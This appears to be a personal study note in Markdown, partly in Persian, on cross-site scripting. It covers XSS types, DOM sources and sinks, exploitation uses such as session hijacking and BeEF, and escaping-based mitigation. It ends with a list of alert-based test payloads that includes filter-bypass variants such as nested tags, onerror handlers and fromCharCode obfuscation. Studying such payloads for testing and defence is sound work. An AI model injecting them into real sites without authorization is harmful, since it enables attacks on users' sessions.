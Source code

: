 # XSS

##
- بعد از تزریق کد اسکریپ، باید به page source code رفته تا اثر تزریق را در صفحه ببینیم، تا رفتار سرور و متعاقبا نحوه bypass آن را متوجه شویم

## Types
- Reflected
- Stored
- DOM Based
  - Nothing send to server (check with Burp), instead use both Javascript functions types simultaneously:
    - source
      - ```?name=alireza => document.url()```
    - sink 
      -  ```getElementById()```
      - ```document.write()```

## Exploitation
- Session Hijacking (SEC542-4)
- Fake Page (SEC542-4)
- [BeEF](../Tools/beef.md)

## Mitigation
- Minimize the usage of user input on html
- Escape any untrusted input before inserting it into the page
  - ```&``` => ```&amp;```
  - ```<``` => ```&lt;```
  - ```>``` => ```&gt;```
  - ```"``` => ```&quot;```
  - ```'``` => ```&#x27;```
  - ```/``` => ```&#x2F;```
- [XSS-Prevention-CheatSheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html) 

## Payloads
```Javascript
'"><script>alert('ehsan')</script>
"><script>alert('ehsan')</script>
a<script>alert('ehsan')</script>
a<SCript>alert('ehsan')</SCript>
a<scri<script>pt>alert('ehsan')</scri</script>pt>
a<img src='aaa' onerror='alert("ehsan")'/>
a<script>prompt('ehsan')</script>
a<script>eval(String.fromCharCode(97, 108, 101, 114, 116, 40, 39, 101, 104, 115, 97, 110, 39, 41))</script>
a";alert("ehsan");//
a";alert("ehsan");"
a';alert('ehsan');//
a';alert('ehsan');'
/"><script>alert('ehsan')</script>
```
  
